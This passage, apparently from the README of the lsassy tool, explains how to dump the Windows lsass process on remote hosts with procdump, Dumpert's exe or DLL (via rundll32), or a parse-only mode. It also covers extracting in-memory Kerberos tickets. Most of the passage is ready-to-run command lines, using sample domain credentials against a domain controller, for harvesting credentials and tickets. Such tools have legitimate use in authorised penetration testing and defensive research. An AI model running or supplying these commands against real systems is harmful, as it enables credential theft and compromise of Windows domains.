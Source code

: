 #### Dumpert method

This method uploads **dumpert.exe** from [outflanknl](https://github.com/outflanknl/Dumpert) to dump **lsass** process. 

#### Dumpertdll method

This method uploads **dumpert.dll** from [outflanknl](https://github.com/outflanknl/Dumpert) to dump **lsass** process. It will be run via rundll32 utility.

#### Options

For some dumping method, options are required, like procdump or dumpert path. These options can be set using `--options` or `-O` with a comma separated list of options in a `key=value` way.

```
... --options key=value,foo=bar
```

For example:

```bash
lsassy -d adsec.local -u pixis -p h4cknd0 dc01.adsec.local -m procdump    -O procdump_path=/opt/Sysinternals/procdump.exe
lsassy -d adsec.local -u pixis -p h4cknd0 dc01.adsec.local -m dumpert     -O dumpert_path=/opt/dumpert.exe
lsassy -d adsec.local -u pixis -p h4cknd0 dc01.adsec.local -m dumpertdll  -O dumpertdll_path=/opt/dumpert.dll
```

#### Parse only

You can choose to parse an already dumped lsass process by providing `--parse-only` switch, alongside with `--dump-path` and `--dump-name` parameters.

Note that if you choose this method, the **remote lsass dump won't be deleted**.

For example:

```bash
lsassy -d adsec.local -u pixis -p h4cknd0 dc01.adsec.local --parse-only --dump-path "/Windows/Temp" --dump-name "lsass.dmp"
```

### Kerberos tickets harvesting

You can extract in-memory Kerberos tickets by using `-K [directory]` or `--kerberos-dir [directory]` parameter. It will extract and save Kerberos tickets in `kirbi` format in the provided output directory. If this directory doesn't exist, the tool will attempt to create it before outputing tickets.

```bash
lsassy -d adsec.local -u pixis -p h4cknd0 dc01.adsec.local -K '/tmp/kerberos_tickets'
```

### Authentication methods

There are three different ways to authenticate against remote targets using **lsassy**. The only requirement is that the user needs to have local administration rights on the remote targets.
